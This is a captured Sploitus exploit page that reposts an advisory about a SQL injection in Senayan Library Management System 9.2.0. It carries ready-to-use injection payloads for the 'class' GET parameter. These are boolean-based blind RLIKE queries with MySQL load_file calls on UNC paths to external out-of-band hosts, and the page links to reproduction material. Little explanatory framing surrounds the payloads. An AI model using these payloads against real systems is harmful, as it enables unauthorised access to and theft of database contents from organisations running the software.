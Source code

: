 ```yaml
---
title: Senayan Library Management System 9.2.0 SQL Injection exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:170297&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2022-12-20
fetch_date: 2025-10-04T01:56:08.062421
---
```


# Senayan Library Management System 9.2.0 SQL Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Senayan Library Management System 9.2.0 SQL Injection

2022-12-19 | CVSS 0.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:170297
## Title: Senayan Library Management System v9.2.0 a.k.a SLIMS 9 SQLi
## Author: nu11secur1ty
## Date: 12.19.2022
## Vendor: https://slims.web.id/web/
## Software: https://github.com/slims/slims9_bulian/releases/tag/v9.2.0
## Reference: https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/slims.web.id/SLIMS-9.2.0/SQLi

## Description:
The manual insertion `point 5` appears to be vulnerable to SQL
injection attacks. The payload '+(select
load_file('\\\\azditm561h7fku3yj99us8ne258zwpkgn4eu1opd.stupid.com\\dzd'))+'
was submitted in the manual insertion `point 5`.
This payload injects a SQL sub-query that calls MySQL's load_file
function with a UNC file path that references a URL on an external
domain.
The application interacted with that domain, indicating that the
injected SQL query was executed.
The attacker can take information from all database columns of this
system by using this vulnerability.

## STATUS: HIGH Vulnerability - CRITICAL

[+] Payload:

```MySQL
---
Parameter: class (GET)
Type: boolean-based blind
Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY
or GROUP BY clause
Payload: reportView=true&year=2002&class=bbbb'+(select
load_file('\\\\716gb1cfe9gkja4zdj45qxx9208vwlkcn0en6bv.slims.web.id\\nbq'))+''
RLIKE (SELECT (CASE WHEN (8839=8839) THEN 0x62626262+(select
load_file(0x5c5c5c5c37313667623163666539676b6a61347a646a34357178783932303876776c6b636e30656e3662762e736c696d732e7765622e69645c5c6e6271))+''
ELSE 0x28 END)) AND
'IzAa'='IzAa&membershipType=a''&collType=aaaa'+(select
load_file('\\\\dctiy0hziwzd4xujfqqcfd3uul0koac1fp6ft9hy.slims.web.id\\wtf'))+''+(select
load_file('\\\\azditm561h7fku3yj99us8ne258zwpkgn4eu1opd.slims.web.id\\dzd'))+'
---
```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/slims.web.id/SLIMS-9.2.0/SQLi)

## Proof and Exploit:
[href](https://streamable.com/jy5pql)

## Time spent
`00:10:00`

## Writing an exploit
`00:05:00`
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)
